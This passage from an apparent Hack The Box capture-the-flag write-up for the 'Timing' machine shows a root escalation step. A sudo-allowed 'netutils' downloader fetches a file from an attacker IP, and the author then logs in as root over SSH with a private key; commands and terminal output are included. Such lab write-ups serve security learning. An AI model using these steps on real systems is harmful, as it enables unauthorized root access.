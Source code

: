 ```bash
aaron@timing:~$ sudo -u root netutils
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 1
Enter Url: http://10.10.16.2/test             
Initializing download: http://10.10.16.2/test
File size: 563 bytes
Opening output file test
Server unsupported, starting from scratch with one connection.
Starting download


Downloaded 563 byte in 0 seconds. (1.10 KB/s)
```

4. Login as root via SSH:

```bash
┌──(kali㉿kali)-[~/…/HTB-CTF/Machines/Timing/www]
└─$ chmod 600 id_rsa     
                                                                                                                                                             
┌──(kali㉿kali)-[~/…/HTB-CTF/Machines/Timing/www]
└─$ ssh root@$IP -i id_rsa     
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-147-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Dec 25 07:23:52 UTC 2022

  System load:  0.0               Processes:           204
  Usage of /:   49.8% of 4.85GB   Users logged in:     1
  Memory usage: 14%               IP address for eth0: 10.10.11.135
  Swap usage:   0%


8 updates can be applied immediately.
8 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


root@timing:~# 
```

- And yes, as expected, axel is a downloader tool
